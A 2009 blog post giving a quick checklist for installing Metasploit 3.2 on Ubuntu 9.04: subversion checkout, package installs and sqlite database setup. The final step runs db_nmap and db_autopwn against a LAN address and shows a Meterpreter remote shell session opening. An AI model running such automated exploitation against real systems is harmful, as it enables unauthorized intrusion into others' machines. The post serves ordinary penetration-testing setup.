 ```yaml
---
id: 33
title: Metasploit Ubuntu Checklist
date: 2009-07-05T15:55:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=33
permalink: /?p=33
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2009/07/autopwn-on-ubuntu.html
categories:
  - metasploit
tags:
  - metasploit
---
```

So I just got a new computer and have been setting up my work environment. One thing I always forget is getting metasploit running with autopwn. I only seem to do this when I either get a new machine or rebuild, which is not that often. I feel like once you have autopwn going, metasploit is at a good point for exploiting and developing.

This post is going to be a quick reference list of getting the framwork up and going. At the time of this post it was Ubuntu 9.04 and Metasploit 3.2 .
  
<span style="font-weight: bold;"><br /> 1. Get Metasploit:</span>
  
I always get metasploit through subversion. Do it anyway you like.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="apt_sources" style="font-family:monospace;">$sudo apt-get install subversion
$svn co <span style="color: #009900;">http://metasploit.com/svn/framework3/trunk/</span></pre>
      </td>
    </tr>
  </table>
</div>

<span style="font-weight: bold;"><br /> 2. Install Ubuntu debs:</span>
  
Add any others that you think are necessary.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="apt_sources" style="font-family:monospace;">$apt-get install ruby rubygems sqlite libsqlite3-ruby libopenssl-ruby nmap</pre>
      </td>
    </tr>
  </table>
</div>

<span style="font-weight: bold;">3. Create Metasploit DB:<br /> </span>In the example below, mine was already created.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">msf <span style="color: #000000; font-weight: bold;">&gt;</span> db_driver sqlite3
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> Using database driver sqlite3
msf <span style="color: #000000; font-weight: bold;">&gt;</span> db_create
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> The specified database already exists, connecting
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> Successfully connected to the database
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> File: <span style="color: #000000; font-weight: bold;">/</span>home<span style="color: #000000; font-weight: bold;">/</span>asdf<span style="color: #000000; font-weight: bold;">/</span>.msf3<span style="color: #000000; font-weight: bold;">/</span>sqlite3.db
msf <span style="color: #000000; font-weight: bold;">&gt;</span> db_connect
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> Successfully connected to the database
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> File: <span style="color: #000000; font-weight: bold;">/</span>home<span style="color: #000000; font-weight: bold;">/</span>asdf<span style="color: #000000; font-weight: bold;">/</span>.msf3<span style="color: #000000; font-weight: bold;">/</span>sqlite3.db
msf <span style="color: #000000; font-weight: bold;">&gt;</span></pre>
      </td>
    </tr>
  </table>
</div>

<span style="font-weight: bold;">4. Run autopwn:<br /> </span>This is all at the very basic level, just testing if it works.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="bash" style="font-family:monospace;">msf <span style="color: #000000; font-weight: bold;">&gt;</span> db_nmap 192.168.1.2
msf <span style="color: #000000; font-weight: bold;">&gt;</span> db_autopwn <span style="color: #660033;">-e</span> <span style="color: #660033;">-p</span> <span style="color: #660033;">-b</span>
msf <span style="color: #000000; font-weight: bold;">&gt;</span> sessions
&nbsp;
Active sessions
===============
&nbsp;
Id  Description  Tunnel
<span style="color: #660033;">--</span>  <span style="color: #660033;">-----------</span>  <span style="color: #660033;">------</span>
<span style="color: #000000;">1</span>   Meterpreter  192.168.1.1:<span style="color: #000000;">60781</span> -<span style="color: #000000; font-weight: bold;">&</span>gt; 192.168.1.2:<span style="color: #000000;">15786</span>
&nbsp;
msf <span style="color: #000000; font-weight: bold;">&gt;</span> sessions <span style="color: #660033;">-i</span> <span style="color: #000000;">1</span>
<span style="color: #7a0874; font-weight: bold;">&#91;</span><span style="color: #000000; font-weight: bold;">*</span><span style="color: #7a0874; font-weight: bold;">&#93;</span> Starting interaction with <span style="color: #000000;">1</span>...
&nbsp;
meterpreter <span style="color: #000000; font-weight: bold;">&gt;</span></pre>
      </td>
    </tr>
  </table>
</div>

Like I said this is all basic and just a quick checklist to get it going. I have never wrote this down because I always felt like I would remember. Anyways if anyone else has some stuff they add or do to get their base framework going, I would love to hear about it.

<span style="font-weight: bold;">References:</span>
  
<http://metasploit.com/>
  
<http://en.wikibooks.org/wiki/Metasploit/UsingMetasploit>
